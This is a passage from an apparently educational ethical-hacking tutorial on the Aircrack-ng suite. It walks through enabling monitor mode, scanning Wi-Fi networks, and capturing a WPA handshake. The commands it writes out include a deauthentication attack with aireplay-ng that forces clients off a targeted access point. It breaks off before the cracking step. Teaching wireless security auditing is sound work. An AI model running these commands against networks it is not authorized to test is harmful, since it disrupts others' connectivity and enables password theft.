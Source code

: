 ## 4. Aircrack-ng Suite (Ethical Hacking Tool)

Aircrack-ng is a Wi-Fi security auditing toolset used to:

    Scan networks (airodump-ng)

    Capture handshakes (airodump-ng)

    Perform deauth attacks (aireplay-ng)

    Crack passwords (aircrack-ng)

- Legal Note: Only use on your own networks or with explicit permission.
- 
**Activities**
1. Scan for Wi-Fi Networks & Analyze Encryption

Tools Needed:

    Kali Linux (or any Linux with Aircrack-ng)

    Wireless adapter (supports monitor mode)

Steps:

    Enable monitor mode:
    bash

airmon-ng start wlan0

Scan networks:

    airodump-ng wlan0mon

    Analyze output:

        Look for BSSID (MAC), ESSID (name), encryption (WEP/WPA/WPA2).

2. Capture a WPA Handshake

Steps:

    Target a network:
    bash

    airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

    -c 6 → Channel

    --bssid → Router MAC

    -w capture → Save to file

Force a handshake (deauth attack):

    aireplay-ng -0 2 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon

    -0 2 → Send 2 deauth packets

    -a → AP MAC

    -c → Client MAC
